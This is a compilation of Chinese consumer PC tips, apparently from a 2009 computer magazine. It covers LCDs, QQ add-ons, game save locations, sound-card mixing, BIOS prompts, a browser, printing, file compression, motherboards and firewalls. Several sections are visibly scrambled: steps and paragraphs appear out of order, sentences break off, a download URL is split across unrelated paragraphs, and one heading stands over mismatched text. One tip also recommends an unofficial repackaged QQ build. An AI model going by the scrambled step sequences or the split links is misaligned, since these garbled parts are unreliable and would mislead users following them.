(广东/陈海燕)

## 液晶显示器到底会不会“流汤儿”

如果液晶可以流水，那是100多英寸的电视，你和老婆一吵架，一烟灰缸砸上去，你家就发大水了……
自从液晶显示器普及开始，液晶显示器会不会流水就常被大爷大妈们问到，现在液晶电视出来了，居然有越来越多的人提到这个问题，当然了，肯定更多的人是怕被笑话，憋在心里还没问，是把它摆到桌面上来谈谈的时候了！

### 可能“流汤儿”的液晶藏在哪里

对照着液晶显示器的结构图，我们可以看到能“流汤”的部分就是液晶，这也正是为什么称之为液晶的原因。

### “肥皂水”也是液晶

估计在很多人潜意识里面，一提到液晶就觉得它应该是液体，有如长江之水，流来流去，但其实这都是胡扯。科学学家叔叔们早已告诉我们液晶主要是由N多有机物组成的。你最容易见到的液晶就是适当浓度的肥皂水，当然这玩意只能照出你自己，是没办法用来当显示器用的。
液晶的全名是液态晶体，如果用干涩的定义来说就是兼具液体的流动性和晶体的规则排列性的材料，说白了就是在液体和晶体之间的东西，这东西真是玄妙呀！目前已有5千多种人造液晶材料，液晶显示器说白了就是两片经过处理的玻璃中间入上液晶，然后经过N道复杂的处理制做出的高科技产品。
由于液晶是一种液态和固态中间的分子，所以虽然受到外力会流动(就像你按下屏幕就会出现水纹)，但是你放心，即便你把它摔碎也不会看到液晶“流”出来的样子……



## 同一篇文章，同一个问题：解决赛博QQ的烦人提示

15期《好汉三个帮 QQ要武装》介绍了一个可以显示IP地址的赛博QQ。软件很好还有很多附加功能，可在使用中我发现赛博QQ强制用户将首页设为某个乱七八糟的网址导航站，很让我反感。后来我发现了一款名叫无忧登录（下载地址：http://www.51logon.com/）的软件在最新的6.4版本中强势推出了QQ显IP功能，我亲身体验了一下无忧登陆QQ显IP版的功能……

小编点评：无忧登陆支持包括2009在内的多个版本QQ的显示IP功能，而且可以管理多个QQ是一款非常不错的软件。只是liang040361同学，抄袭是可耻的！虽然你已经是高三了，而且马上就是与CFan结缘一周年的日子，但你的投稿是没办法了……当然，最后还要祝你整出一个很好很强大高考成绩，考上一个巨好巨强大的大学！（liang040361）

## 游戏存档 我用你的

电脑爱好者2009年16期P53《金疙瘩，捡现成你的配置我来用》这篇文章提到了使用别人的配置来完善自己的软件，可是文中没有涉及一种非常重要的软件——游戏。游戏的“配置”就是游戏存档，如果你辛辛苦苦地把一个游戏快玩到通关，突然有一天电脑出了问题，重装以后，游戏记录不复存在，向玩到差不多进度的朋友或网友求助，人家却不知道游戏存档放在哪里，那可真是要抓狂了。今天，我就教你怎样找到游戏的“金疙瘩”——存档。

### 第一种：和游戏在同一根目录下

这种游戏的存档查找起来比较简单，一般存档所在文件夹的名称中带有Save字样。以《活死人之地》为例，名为Saves的文件夹，这就是该游戏的存档。

### 第二种：和游戏不在同一根目录下

以这种方式存储游戏存档的游戏近几年屡见不鲜，比如《哈利波特与凤凰社》、《钢铁人》等游戏。这些游戏的存档大部分都是存放在C:\Documents and Settings\用户名\Local Settings\文件夹中并且设置成了隐藏，不仅不易找到，而且一旦重装系统，记录就会不复存在，非常让人恼火，又很无奈。不过，此类游戏存档所在的文件夹一般是以游戏英文名或者开发商英文名称命名的，以《哈利波特与凤凰社》为例，先将隐藏文件选项取消，进入C:\Documents and Settings\用户名\Local Settings\Application Data这个文件夹，会看见名为Electronic Arts的文件夹，其实就是EA公司，进入后会看见Harry Potter and the Order of the Phoenix文件夹，这就是《哈利波特与凤凰社》的存档了。

如果以上两种方式都不能找到存档的话，那么只有借助软件来查找了。首先下载“Windows文件监视器”（下载地址：http://work.newhua.com/cfan/200920/winwjsq.zip），运行后，将监视目录设置成游戏根目录，然后勾选选项，单击“开始监视”。接着，进入游戏，当游戏保存进程完毕后，你分析一下此软件的监视结果，一般都能找到存档所在位置。如果这样还找不到，可以尝试把监控目录设置成系统盘，再重复操作。

找到了游戏存档，你不仅可以向他人求助，还可以将通关存档放到网上去，供他人下载，甚至可以作为你向朋友炫耀的资本。

小编点评：作为最佳贡献奖的得主，邢宸斐在他的博客（http://hi.baidu.com/2open）上提供了哈利波特5/6两部游戏的通关存档；有喜欢的朋友快去下载。（浙江/邢宸斐）

## ISUC唱歌不再愁

在网上唱歌时听到别人唱得很动听，自己唱时别人只能听到自己清唱，却听不到伴奏音乐，本来一副好嗓门，效果大打折扣。在IS（iSpeak）、UC（UCtalk）唱歌的时候，由于对声卡的设置不当，没有发挥出声卡的混音性能，自然不能唱得动听了，而一些较老的AC97集成声卡根本不支持混音功能。所以，在聊天室K歌时却无法播放伴奏音乐，QQ语音聊天时放的背景音乐对方也听不到，种种问题只因混音起。

小知识：混音（MIXING）将人声、伴奏音乐、环境音效等多种不同的音源予以混合，得到高品质音效，最后经过录音处理使之成为一个整体。

### 追求录音棚效果

大家使用的声卡多是集成声卡Realtek HD Audio系列，虽然支持混音，但是效果比不上创新系列的独立声卡，集成声卡支持的环境音效，回放质量也有限，如果要求不高的话使用也无妨，还能省几十元。

麦克风的质量也直接影响到唱歌音质，10多元的耳麦应付语音聊天还凑合，想要出效果，先投资个50元以上的耳麦，漫步者H500备受好评，以其80多元的价格也很实惠，只卖70元外观却很时尚的OVC音乐多媒体耳机HC50，采用麦克风抗噪设计，也很适合K歌。

### 开启混音之门

以Realtek HD Audio声卡为例，麦克风在IS中的相关设置，对Windows XP系统有效。
第一步：点击屏幕右下角红色小喇叭（如在右下角无下图的图标，请点“开始→设置→控制面板→Realtek高清晰音频配置”），在弹出的设置面板里选择混频器。
第二步：点击按钮向后移动，直到看见 Front Pink in（前端粉色输入）和 Rear Pink in（后部粉色输入）或者是麦克风音量。
第三步：把红色的叉叉取消掉，然后把音量调大。
第四步：ALC662的麦克风音量、立体声混音之间是单通道，只能二选一，选择立体声混音。如果麦克风声音太小，可以开启麦克风加强。
第五步：麦克风加强后，麦克风音量会明显增大而且伴随有噪声，可以调节重放，减少噪声。

Vista、Windows 7系统下设置Realtek HD Audio声卡的混音稍微复杂些。
第一步：右键点击任务栏右下角系统托盘的音量图标，选择录音设备。
第二步：选中声音属性面板中的录制选项卡。
第三步：在当前界面中点击鼠标右键，在弹出的右键菜单中，勾选显示已禁用的设备。
第四步：声音界面中会显示立体声混音这个选项，启用它之后，会现出工作正常，右键将它设置为默认设备。
第五步：设置成功后，立体声混音选项的图标会被勾选，并且右侧会显示柱状的音量图，右键点击立体声混音，在弹出的右键菜单中选择属性，找到级别选项卡可以调整立体声混音的音量。

经过以上一番设置之后，上网K歌不再是难题。如果不满足集成声卡的音效，可以在淘宝买块三四十块钱的创新CT4830声卡，效果又提升一大截。本本上可以选择的USB混音声卡不多，淘宝上有二十多元的山寨工包货（搜索宝贝“USB声卡 混音”即可找到），二百多元的乐之邦玲珑5音质很好，声卡是长期投资，不容易坏，保值率也很高，可以考虑选购。（intelct）

## 和F1说再见

电脑平时工作得很好，可是突然就出问题了，一串英文在屏幕上蹦来蹦去，结果每次都要按F1才可进入，英文倒是不难理解，找出原因才能对症下药。

Hareware Monitor found an error, enter POWER MANAGEMENT SETUP for details. Press F1 to continue, DEL to enter SETUP.

主板的监视功能在说：CPU的温度、电压可能出错了，这时一定要查看PC Health Status（电脑安全状态）下的CPU Core Voltage（CPU核心电压）、DDR Voltage（内存电压）到底是哪部分异常，退到主菜单选择Load BIOS defaults（恢复BIOS默认设置），还未解决的话就要考虑是硬件出现问题了，可以向厂商求助。

press F1 to continue, Del to setup 不用担心，这不是什么大毛病，BIOS只是善意地提醒你：我还能工作就是有点感冒，要不要按F1继续，或者按Del给我检查一下吧？一般情况下就是主板电池没有电了，造成BIOS数据丢失从而出现这个故障，最明显的就是每次开机时间都恢复到出厂状态，打开机箱侧面板，找到这个大纽扣电池，花5块钱买个新的换上就OK啦，要使用相同型号的。

CPU Fan Error!Press F1 to resume 这种情况一般是BIOS检测到CPU风扇转速低于一个非常危险的值甚至停转，拆开机箱看看CPU风扇是不是真的转得很慢或者不转了。另外，BIOS检测CPU风扇转速是针对一个具体的风扇接口的。也就是说，如果CPU风扇没有插到标有CPU字样的那个风扇接口，BIOS一样会报警，三针风扇接口只能测速，四针风扇接口多出了调速功能。（intelct）

现在新机器基本上把软驱淘汰了，这件上古物件还存在于老机器中，当它犯毛病时也会出现这个提示，建议直接关掉。按Del进到BIOS里，找到Advanced BIOS Features（高级BIOS设置）下的Boot Up Floppy Seek（搜索软盘驱动器），把它改成Disabled（禁用），这样电脑就不会在启动时傻乎乎地去找软驱了。

## 解决赛博QQ的烦人提示

话说2009年15期的《好汉三个帮：QQ要武装》里说道，赛博QQ的很多优点。可是它有个致命的缺点，就是，它也开始“流氓”了，在我安装赛博QQ 2.2版以后，程序提示设置赛博网导航为浏览器的主页。而且如果选择否，则不能打开QQ。但是，即使你选择的是“是”，也一样会再次接到提示，好像它的软件做得有问题，不能自动修改主页，还得自己手动修改。经过我修改以后，可以正常使用，但是，我发现，无论你是否已经修改，每次登录都会出现提示，真的很烦，很流氓！

愤怒之下，我到网上寻找解决办法。终于，我找到了一款由落雪梨花绿化制作的基于QQ2009 SP4原版文件且添加了赛博功能的落雪梨花QQ 7.10版（最新版本为7.12，但是未集成赛博，下载地址：http://work.newhua.com/cfan/200920/lxh.rar）。

这样除第一次登录会出现的提示外，不再会有烦人的提示，而且属于绿色软件，解压即可使用（右击解压的请先运行QQ2009\Bin\Common.exe和QQ2009\Bin\SSOCommon.exe）。

小编点评：赛博QQ也变“流氓”了，虽说这种做法可以理解，但还是希望这样的软件越来越少。另外，其实大家只要安装以前版本的赛博QQ就不会看到这些烦人的提示了。（河北/咖墨）

# 炫音流影，这是我的网络世界

兄弟，难道你上网还在忍受动不动就假死的IE?往往由于一个页面当掉，而使整个浏览器没反应的情况，让正在在线听歌、看电影的你头痛已久了吧。如果你想告别这种痛苦的上网生活，不如试试我们今天介绍的浏览器——“世界之窗”。现在的一个网页中经常是文字、图片、音频、视频、Flash等各种元素大杂烩，世界之窗面对这种情况，除了不会假死外，还能有效杜绝弹出广告、浮窗等，让你全心全意沉浸在自己的影音世界中。现在，就让我们跳出IE的禁锢，去享受一下“放眼看世界”的自由吧。别忘了，先登录世界之窗官方网站http://www.ioage.com/cn/，点击“立即体验3.0正式版”下载哟!

## 我要我的专享视频

如今，喜欢在线看视频的人越来越多。不过，令人扫兴的是，大多网页上的视频都显示在页面的中间，周围还埋伏着N多广告，而且在看的时候也不方便浏览其他网页。这时，“世界之窗”的好处就体现出来了，它可以把在线视频转到一个专用的播放器窗口中，这样就可以把视频放在桌面的任何地方进行欣赏了，欣赏的同时也可以浏览网页，两不耽误。

### 小提示：让网页安静一些

有时，当你正津津有味地欣赏一部电影时，电脑突然传出一阵疯狂的音乐，吓你一跳，其实这是某个网页中的背景音乐惹的祸。在“世界之窗”中可以利用静音功能关闭来自网页的声音，而不会影响到本地系统的声音。在“世界之窗”的状态栏右下侧有个喇叭图标，点击它就可以关闭网页中发出的声音了，再次点击就会恢复声音。

## 美图，不能放过

我发现我的不少喜欢写博客的朋友都有“存图瘾”——在网上发现好看的图片就一定要存下来，之后就放在博客里，搞得很有效调。但如果每次看见喜欢的图片都要右键点击图片来选择“另存为”就很不方便，其实在“世界之窗”中保存图片就用不着这么麻烦。

打开浏览器的“工具→选项”，在选项页面点击左侧栏“基本→快速保存”，接着在显示的页面里选中“按住Alt键点击页面元素时，自动保存该元素”，可以根据需要点击“选择目录”来更改图片的保存目录后“确定”即可。之后需要保存网页上的图片时，只要按住键盘上的Alt键，再点击一下图片就可以自动保存了。

有时候也需要对网页进行截图，如果电脑里没有安装截图软件的话，也可以通过“世界之窗”的一个扩展功能来实现。在浏览器中点击菜单“工具→管理功能组件”，在弹出窗口中点击右上角的“获取更多”，这时会弹出一个扩展安装的网页，在“热门扩展”栏中可以看见有个“屏幕截图”，点击它进入下载页面，再点击页面中的“立即下载”就可以进行安装了，等提示扩展已经安装完成后，再重启一下浏览器就可以使用了。添加的扩展功能按钮都是显示在浏览器的状态栏右侧，我们可以看见多了个照相机的图标，这个就是截图按钮，点击它会弹出一个菜单，选择“保存网页为图片”就可以把当前浏览的网页保存为一张图片，选择“屏幕截图”则可以对屏幕上任何位置进行截图，截取的图片可以单独保存，也可以复制到剪贴板上供其他程序调用。扩展里面还有很多实用的小功能，而且还有网友在不断进行开发，大家可以根据需要来添加。

## 拖拖就能下，影音自由来

下载是非常基本的上网应用，一般我们的电脑里都会有迅雷、电驴、快车等下载工具，但如果你只是下载一些不大的音乐、软件，就犯不着用那种专门的下载工具了。“世界之窗”就具有很不错的下载功能，支持多线程和断点续传，足以应付一般的下载需求，而且操作起来也很简单。

当我们需要下载某个软件时，只要在下载地址上点击鼠标右键，选择“使用世界之窗下载”就可以了。在浏览器的状态栏右侧点击箭头朝下的按钮，也可以弹出下载主界面，我们可以直接拖拽下载地址到这个界面中进行下载。

## 给你想要的方便

从上面的文章中你可以发现，“世界之窗”虽然是一个小浏览器，但是在设计方面却非常贴心，非常人性化，操作之方便远胜于IE。当然，方便之处还不只这些......

如果你将鼠标放在“世界之窗”工具栏上的一排按钮上，每个按钮的功能说明便会浮现出来，你会发现左击和右击这些按钮，分别可以实现不同功能。

一般在浏览器中做如返回上一页、滚动页面、关闭页面的操作时，都需要去点击相应的按钮，鼠标移上移下很不方便。而“世界之窗”支持鼠标手势操作，大大给你方便。只要在浏览器的任意位置用鼠标右键划个简单的手势就能完成这些操作。点击菜单“工具→选项”，点击选项页面的左侧栏“高级→鼠标操作”，选择“启用鼠标手势”，即可设置鼠标手势。

在“世界之窗”的搜索栏中，自带了搜索文字的联想功能，只要输入文字或拼音首字母，就会显示联想出的结果。如输入“电脑”，就会显示以该词汇开头的一些常被搜索的条目了。

为了更好地杜绝浏览器假死，可以在“世界之窗”的选项页面中点击“高级→框架和增强”，在显示的页面中我们启动“浏览器防假死”选项，进程模式改成“混合模式”，这样网页就可以按顺序使用不同的进程来进行打开网页。设置好后重启一下浏览器就能生效了。

# 文件移动、复制又一法

拜读了第15期的《文件移动、复制更简单》一文之后，笔者利用该文作者介绍的方法之后感到屡试不爽。在平时使用电脑的过程中这类方便复制的软件是十分必要的。不过在我们平常使用电脑的过程中，也经常会使用到复制粘贴某段文字的操作，但是系统内置的剪贴板有一个不足，就是只能保存上一次复制的数据。有时候我们复制的东西，一个误操作不小心就被覆盖了，遇到这种情况该怎么办呢？其实这一切可以交给“复制记录器”（下载地址：http://work.newhua.com/cfan/200920/CopyRecorder.rar）这个类似剪贴板的工具解决。

操作过程也相当简单，下载并运行该软件后勾选右下角的“关闭到托盘”，以便其不妨碍使用电脑。这样以后只要在电脑使用时首先运行它，就可以记录你所有在电脑操作过程中所复制的文字。一旦先前复制命令被覆盖就可以打开该软件，选中所需复制的文字，单击复制按钮即可进行粘贴操作了！

### 小编点评：

嗯，这样的结果就是所有秘密可就都没有了，复制出来的东西全在这个软件中了，其实是属于“无隐私”的。（广西/雾雪霏云）

# 加快操作，三步并作两步走

保存文件、启动程序，一定非要按部就班地进入程序组吗？Windows 7有什么加快程序启动的好办法？

## “保存”对话框中的快捷方式合理定制

在保存文档、打开文档时弹出的对话框中，左侧列表中通常是默认的几个系统文件夹位置，而我们平时在使用过程中肯定有自己常用的位置，将这个位置添加进来，日后操作时就更方便了。首先，从http://download.pchome.net/system/twek/redirectsrv-141818-6.html下载并安装这款名为“PlacesBar Editor”的小工具，安装运行后即可分别对系统常用的打开、保存对话框及Office软件的打开、保存对话框中的常用位置进行自定义设置了。

## 常记“最近文档”，节省找文件时间

## 教你用好 Windows 7 的“快速启动”

在Windows XP系统中，可以直接通过右击任务栏并选择“工具栏→快速启动栏”启动快速启动栏，然后将常用的程序快捷方式添加进来，往往比直接放在桌面上的快捷方式用得更方便。

而在Windows 7系统中，快速启动栏这个概念不存在了，不过使用起来更方便了。

-   1. 将常用程序钉到任务栏

平时最常用的程序通常也就是那几个屈指可数的，例如浏览器、QQ、某款游戏等（因人而异），而其他那些并不是最常用的程序偶尔使用一下，直接从“开始”菜单或是“计算机”中打开更方便。而常用的程序要想将其钉到任务栏中很简单，以傲游浏览器为例：

先启动傲游浏览器，接下来再右击任务栏中的傲游程序图标并选择锁定到任务栏项即可。

除了应用程序可以钉到任务栏外，常用的文件夹也可以将其钉到任务栏中。此外，被钉在任务栏中的程序或是文件夹，以后用鼠标右击会在弹出的快捷菜单中显示出最近操作过的对象，例如将文件夹钉到任务栏后，当以后右击任务栏中的文件夹图标时会看到最近访问过的文件夹项。同时，在这个最近访问过的列表中再次右击某个项还可以将该项再次锁定，这样就不会随着日后打开其他同类文件而导致其隐藏。

-   2. 让Windows 7返老还童——重现快速启动栏

# 机箱的那些线

攒机？主板与机箱间的开关连线是关键。难倒很多初学者，当然自己动手装的机会不多，可它是成为老鸟的必经之路。

## 磨刀

| 接口名称 | 功能说明 |
| :--- | :--- |
| Power SW (Power Switch) | 电源开关，机箱前面板开机按钮 |
| Power LED +/- | 电源指示灯 |
| Reset SW (Reset Switch) | 机箱前面板复位按钮 |
| HDD LED | 硬盘状态指示灯 |
| USB | 前置USB接口 |
| SPEAKER | 主板运行异常报警器 |
| AUDIO | 机箱前面板音频输入/输出 |



做工较好的机箱连线接口多为整合接口，直接插上就可以。选购机箱时可优先考虑。而一些便宜的机箱则需要我们做更多的辨认和连接工作。认清连线的类型和功能后，老老实实地找出主板说明书吧，毕竟每款主板间的针脚定义还是有差别的。按照说明连线并不难。以热卖的整合主板微星785G-E45做个例子，连接重点还在辨认针脚定义与正负极，特别是正负极。如果接错轻则功能缺失，严重可能导致主板不能正常使用，所以要细心。

## 上阵

首先是连接Power SW/Reset SW/Power LED / HDD LED的9pin跳线（见图2），按照图示找到Power SW/Reset SW对应的针脚。电源开关不分正负极，两个LED灯需要区分正负极，仔细看你会发现线的接口处有突起的三角标识，这是正极，如果没有特殊标识，一般来讲彩线为正极。9针脚为空，不用理会。前置USB接口和AUDIO音频线比较简单，有防呆设计（插头上有卡口），反着插根本插不进去。SPEAKER最为明显的一个4pin接口，它是个报警器，按标识分好正负极。



大功告成，赶快体验一下你的新机器吧。 (intelct)

# 打印没你想象的那么简单

也许大家都知道Ctrl+P即可发动打印命令启动打印任务，但其实打印并不是一件简单的事情，要是不掌握一些特技，打印的作品往往与自己的要求相差甚远。譬如，当前只有黑墨水，打印文档时，就需要将文档中所有非黑色内容调整成黑色或是灰度模式，否则打印出来的作品可能就会出现残缺不全的现象。类似的问题还有很多……

整了，而在打印预览模式下直接单击“纸张方向”按钮即可进行调整了。

## 借助打印预览，确保打印前万事俱备

提供打印功能的软件（例如Word、记事本、图片查看器等等）都提供了打印之前的预览功能，而预览功能就是在电脑屏幕中事先查看一下打印后的真实效果。因此，在打印预览模式下感觉设置、排版等均无问题，打印后也不会出现差错。而在预览时若有偏差，可以就地解决，避免浪费纸张和墨水。例如就以Word 2007为例，在打印之前先单击“Office按钮→打印→打印预览”即可启动打印预览功能了。在打印预览模式下还可以通过单击预览文档在缩小模式及正常模式下切换，缩小模式下可以更方便地全观整个页面布局，而在放大模式下则可以查看内容是否有错误。

### 1.调整纸张方向，小纸可办大事

有时候会碰到这样的情况，文档的宽度比现有的纸还宽，这时就可以通过调整纸张方向，用打印纸长边来打印文档的宽边，这样就可以完美地解决问题了。调整打印纸的方向很简单，如果是在正常模式下，只要在“页面布局”区中通过“纸张方向”即可进行调整了。

### 2.缩小页边距，不仅仅是节省打印纸

默认设置下，页边距往往留下的空间较大，如果不是追求美观，在更注重内容的情况下，可以通过设置将打印页面中的页边距缩小，让打印纸的使用率更高。此外，原本需要一页才能打印完的内容，现在也许只需要1页打印纸即可，省的不仅仅是打印纸，所有内容在一页纸上，看起来也更舒服点。在“页面布局”选项卡中单击“页边距”按钮，在下面的列表中选择一个最小页边距即可，还可以选择自定义项，然后手工指定页边距值。

## 打印网页，防止触“地雷”

有些时候可能需要直接将网页打印出来，而一不小心就可能出现“触雷”事故——打印出来的作品中含有很多怪字符。这是因为打印的页面中含有干扰码所致。要想避免“触雷”，先将要打印的内容拷贝到Word或是其他文档编辑工具中，有无干扰码一看便知。不过，假如有干扰码，手工去除很费劲，推荐使用“排版助手”（下载地址：http://www.skycn.com/soft/40696.html），运行后直接将含有干扰码的内容拷贝到软件中，按照图示方法操作即可。

### 小提示：

这款软件针对文档内容中含有特殊字符的干扰码的去除效果较好，假如含有了一些正常的文字、字符，可能需要配合手工清除。 (dream)

# 网络要宽带 文件要减肥

网速快了，硬盘大了，为什么文件还要减肥？在使用电脑过程中，有时会因为“肥胖病”而被拒之门外。例如发送邮件时，如果附件超过邮箱允许的附件大小，你就无法发送，在论坛中设置头像，事先准备的一幅图片总是被提示太大，如此等等。其实，在使用电脑时，很多时候我们也面临着需要减肥的困惑！

cn/soft/2012.html下载这款名为“Photo Resize Magic”的小工具，运行后即可开始给图片瘦身了。

## 图片瘦身不瘦形

## 邮件附件瘦身不用减肥茶

给图片瘦身很多场合下都需要，但不少朋友总是把握不好图片瘦身与瘦形之间的矛盾，往往出现图片体积的确是减小了，但瘦身后的图片却变形了，要么是被砍掉一部分，要么就是失真。其实，图片瘦身并不复杂。

在平时发送邮件时，如果附件超过邮箱支持的附件大小，或者需要发送多个附件，我们就需要为附件进行瘦身了。而邮件附件瘦身通常不用喝减肥茶，只需要使用压缩软件对附件文件进行压缩操作即可。例如以WinRAR为例：选中邮件附件文件并用鼠标右击，在弹出的快捷菜单中选择“添加到压缩文件”，接下来再设置好目标位置进行压缩即可。

### 1.换种格式就能瘦10斤

### 给常用的 Word 文档也瘦身身

假如在向某个网站上传图片时系统提示图片体积超过默认值，假如超过的值并不是很大，可以尝试换种图片格式来解决问题。通常，Windows默认使用的图片格式就是BMP位图格式，体积较大，而能够同样表现出图片内容的JPG、GIF格式，体积就会小很多。因此，有些场合下直接将BMP格式转换成JPG、GIF格式后就能解决问题了。使用系统自带的画图软件打开图片之后，单击菜单“文件→另存为”，在打开的窗口中单击菜单按钮“文件→另存为”，在打开的列表中选择JPG或GIF格式即可。

说到Word文档，通常情况下是不需要考虑瘦身的。但有一种情况则需要，那就是文档中插入了大量的图片文件，最终可能会导致Word文档变得超级肥，如果图片多的话可能还会导致文档在低配置的电脑中无法打开。针对这种特殊的情况，我们需要对其进行减肥处理，方法也不难，就是想办法将图片剔除出来。

### 2.真正的“瘦身”

有些场合下，不仅要求图片体积要小，对图片尺寸大小也有严重的限制。这种情况下就需要真正的“瘦身”处理了。首先，从http://www.greendown.

-   第一步：先备份文档，然后在配置好的电脑中使用Word打开文档，单击菜单“文件→另存为”，将文档保存成网页，这样做的目的就是将文档中的图片提取出来。
第二步：再次打开之前备份的原始文档，手工将插入的图片删除，同时改为链接方式加载相应的图片即可。 (dream)

# Word按小数点对齐数字简单一法

2009年第13期《Word按小数点对齐数字》一文介绍了如何使用功能区命令实现Word 2007表格按小数点对齐数字。除此之外，还有更为简单的方法实现表格数字按小数点对齐。

## 第一步：

## 第二步：

## 水平标尺上的“小数点对齐方式制表符”进行调整。

单击垂直滚动条上面的“标尺”按钮，以显示水平标尺和垂直标尺。如果水平标尺和垂直标尺已经显示在屏幕上，则略过该步骤。

多次单击水平标尺与垂直标尺的交叉处的对齐方式制表符，直至切换到“小数点对齐方式制表符”。

## 第三步：

怎么样，上述方法较使用功能区命令更为直观，调整起来也简单吧！如果以后不需要水平标尺上的这个对齐方式制表符了，也只要将其拖离水平标尺即可删除。

选中要按小数点对齐数字的表格列，然后单击水平标尺上的适当位置，则“小数点对齐方式制表符”出现在水平标尺上，而且表格中的数字即会在该处对齐小数点。如果单击的位置不太合适，可以拖动

### 小编点评：

的确这个方法要比原文更容易，当然按照原文的方法，调控起来更方便。 (济南/王杰)

# “主”宰电脑 “板”定乾坤

有人把CPU当做电脑的大脑，那么主板可以说是躯干，就算你大脑再好，如果身体不成，很多事情还是完不成，反映到日常的应用中就是莫名其妙的死机，没电，不能开机等等，可以说主板问题能引发N多故障。

## 南桥+北桥=主板

一提到主板，高手们满口的P45,845,790，其实都是主板的芯片组，而芯片组是由南桥和北桥组成的，它的分工基本上是北桥决定主板的性能，南桥决定主板的功能。“北桥”主要是用来处理内存、显卡、CPU中间的数据交换，如果把“数据”比作公共汽车，那么北桥就是“公交枢纽”，所有的数据都在这里交换处理。你的主板支持什么样的CPU、能用什么样的显卡，都在这里决定，它通常是隐藏在一个大大的散热片下。你的主板支持SATA硬盘、集成显卡、声卡、网卡这些都是“南桥”来控制的。

## 你可能会遇到的主板问题

若是一个菜鸟向你夸赞新买的电脑如何高档，CPU如何快，你不妨问问他的主板如何，说不定比较下来，你的老电脑反而要比他的还快。

目前，有很多低价的台式机看着CPU、内存、硬盘都很强大，但主板从来是不会出现在宣传单中。为了节约成本，不少台式机的标配是老主板+新CPU，这其中最大的弊端就是性能上的损失，同时还造成了未来升级时的瓶颈。所以在购买时不妨问问销售人员主板的型号。如果你是攒机，建议不要在主板上省钱，毕竟这是整个平台的中枢。

主板肯定需要选择，而在挑选时，最好还是购买一些大品牌的主板，像华硕、技嘉、微星等等都是比较好的选择。另外JS通常的伎俩是在主板型号上搞些小动作，比如有些主板少个功能，型号少个G，就差上二三十元，于是就有了可赚的“利润”。影响电脑稳定、节能的关键因素就是电压，好的主板在供电部都会处理，比如使用“固态电容”，目的是增加电流的稳定性，一是为了超频，二来也是为了系统的稳定。(李明海)

## 你所能见到的主板型号

| 平台 | 主板型号 | 适合CPU | 点评 |
| :--- | :--- | :--- | :--- |
| Intel独立显卡平台 | I845 | Pentium 4 | 你只能在二手台式机上找到的主板芯片 |
| Intel独立显卡平台 | I865 | Pentium D | 你只能在二手台式机上找到的主板芯片 |
| Intel独立显卡平台 | P965 | Core 2 Duo E6300、Core 2 Duo E4300 | 2008年初的主流芯片 |
| Intel独立显卡平台 | P35 | Core 2 Duo E6350、Pentium E2160 | 2008年初的主流芯片 |
| Intel独立显卡平台 | P43 | Pentium E5200、Core 2 Duo E7400 | 简化版P45，预算不多可考虑；不支持Cross Fire双卡互联技术 |
| Intel独立显卡平台 | P45 | Core 2 Duo E8400、Core 2 Quad Q8200 | 目前主流产品，P45具备当前Core 2 Duo平台最好的技术规格，性价比高 |
| Intel独立显卡平台 | P55 | Core i5 | 未来的主流芯片组产品，即将上市 |
| Intel整合显卡平台 | G41 | Pentium E5200、Core 2 Duo E7200 | G45的入门产品，规格缩水较大 |
| Intel整合显卡平台 | G45 | Pentium E5200、Core 2 Duo E7400 | 兼容性最佳的整合平台，但功能较少，继承了P45的大部分技术特性。但是，他不能实现完全的硬件高清解码 |
| AMD | 780G | Phenom II X3 720 | 低价整合平台的首选，可硬解高清电影 |
| AMD | 790GX | Phenom X3 720 | 显卡核心变为HD3300的780G，超频性能好 |
| NVIDIA | MCP78 | 与780G平台基本一致 | 780G的对手，整合GF8200，兼容性不错，支持CUDA |

# 菜鸟“撞”上网络防火墙

为什么我新买的电脑，在安装迅雷、暴风影音等软件的时候，都会出现“Windows安全警报”提示框？我没有得罪谁啊，为什么他们要对我的电脑进行ARP攻击，让我无法上网呢？为什么最近不能登录QQ了？作为同事们眼中的电脑工程师，小张总是很乐意为大家解答各种网络使用问题。这不，最近有很多人都在问关于网络防护墙的使用问题。

## 网络不安全，催生防火墙

防火墙（Firewall），本义是指古代修筑木质结构房屋的时候，为防止某个局部发生火灾后会迅速蔓延，人们用坚固的石块堆砌在房屋的周围作为屏障，这种防火建筑物就被称之为“防火墙”。而网络中的防火墙，则是通过一组网络设备（或程序），在不同的网络或网络和计算机之间，建立一道访问屏障，并通过它控制访问网络的权限，只允许合法的用户或数据进出网络，防止一个网络中的计算机受到来自另一个网络的攻击。如果从实现方式上来分，防火墙又分为硬件防火墙和软件防火墙两类。硬件防火墙价格昂贵，一般只有大型的企业或重要的部门才会使用。而软件防火墙则是通过纯软件的方法来实现，价格便宜，甚至免费。因此个人用户通常都是使用软件防火墙。

### 小知识：

世界上第一例有确切记载的网络病毒—莫里斯蠕虫病毒，是由美国麻省理工学院的学生莫里斯在1988年11月2日编写的，仅通过网络传播了几小时，就感染了数以千计的联网服务器。

## 网络防火墙之走马观花

在Windows XP中，就包含了一款入门级的防火墙，只不过在各种精简或克隆版XP系统中，Windows防火墙一般处于关闭状态，点击“开始→设置→控制面板→Windows防火墙→启用”，就可以启用Windows防火墙了。当我们初次安装包含外部网络链接的程序时，Windows防火墙会自动发出安全警报，来询问用户是否允许该程序对外部网络的访问，以此来限制或阻止某些有风险的连接请求，阻隔部分木马病毒侵入我们的计算机。在网络安全问题层出不穷的今天，想要全面查杀木马、保护网络账号和隐私安全，还需要借助其他的防火墙，如360安全卫士附带的网络防火墙，就能够阻止各种网页木马、恶意程序对系统攻击和破坏，防止电脑变“肉鸡”后任人宰割。

## 网络大补站：功能不错的免费防火墙推荐

-   - 费尔个人防火墙（http://www.onlinedown.net/soft/139.htm）
- 江民防火墙2009（http://www.jiangmin.com/download/kvfw.htm）
- 彩彩ARP防火墙（http://www.newhua.com/soft/52718.htm）
- 金山ARP防火墙（http://www.skycn.com/soft/40061.html）

### 小提示：

启用Windows防火墙，会影响一些原本可以正常使用的网络访问功能，如网络打印机好文件共享服务、远程桌面等。如果要重新开放这些服务，则需要在“例外”选项卡下勾选“文件和打印机共享、远程桌面”等项。正所谓“道高一尺魔高一丈”，无论是防火墙还是防水墙，其防护技术的发展都是建立在反击各种攻击破坏的基础之上。从这个角度来看，光靠网络安全软件，是不能保证网络和数据的绝对安全，还需要时刻关注网络的运行状况，不断规范个人的网络行为，及时地更新维护各种安全软件，才能最大限度地保护系统和数据的安全。(江苏/姚文连)

# 警惕！卖二手卖出隐私

